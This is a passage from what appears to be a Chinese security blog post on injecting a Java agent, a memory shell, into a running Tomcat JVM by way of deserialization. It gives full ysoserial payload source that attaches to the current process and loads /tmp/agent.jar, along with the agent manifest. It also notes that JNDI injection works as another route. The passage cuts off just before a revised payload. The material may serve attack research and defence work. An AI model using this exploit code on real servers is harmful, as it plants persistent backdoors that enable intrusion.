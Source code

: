   *   *   * 

    
    
    VirtualMachine virtualMachine = VirtualMachine.attach(id);virtualMachine.loadAgent(jarName);virtualMachine.detach();

我们可以使用前面研究过的JNDI注入方法进行注入，也可以利用反序列化，只要能够执行Java代码即可，甚至拿到系统Shell后直接用命令执行`loadAgent`的另一个java程序也可以，只是要上传更多的文件，风险更大

这里方便起见，直接继续使用前面研究的反序列化注入方法进行攻击，我们在`shells`中增加一个新的Payload，代码如下

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package ysoserial.shells;  
    import com.sun.org.apache.xalan.internal.xsltc.DOM;import com.sun.org.apache.xalan.internal.xsltc.TransletException;import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;import com.sun.org.apache.xml.internal.serializer.SerializationHandler;import com.sun.tools.attach.VirtualMachine;import sun.management.VMManagement;  
    import java.lang.management.ManagementFactory;import java.lang.management.RuntimeMXBean;import java.lang.reflect.Field;import java.lang.reflect.Method;  
    public class AgentInjection extends AbstractTranslet {    static {        try {            // 首先获取进程ID            RuntimeMXBean runtime = ManagementFactory.getRuntimeMXBean();            Field jvm = runtime.getClass().getDeclaredField("jvm");            jvm.setAccessible(true);            VMManagement mgmt = (VMManagement) jvm.get(runtime);            Method pidMethod = mgmt.getClass().getDeclaredMethod("getProcessId");            pidMethod.setAccessible(true);            // attach到当前JVM            VirtualMachine virtualMachine = VirtualMachine.attach(String.valueOf(pidMethod.invoke(mgmt)));            // 加载agent，可以从远程下载再load，这里直接从本地load了            virtualMachine.loadAgent("/tmp/agent.jar");            virtualMachine.detach();        }catch (Exception e){        }    }  
        @Override    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {  
        }  
        @Override    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {  
        }}

在`src/main/resources/`目录下创建`META-INF/MANIFEST.MF`，内容如下

  *   *   * 

    
    
    Manifest-Version: 1.0Agent-Class: AgentCan-Retransform-Classes: true

打包成`.jar`，发送序列化数据，结果遇到异常

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220216084008.png)

可以发现依赖于`tools.jar`，这个包对于Tomcat来说并不会自动加载，为了让攻击奏效，我们可以通过`JAVA_HOME`路径手动加载类型，通过反射执行相关函数

修改后的Payload代码如下

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    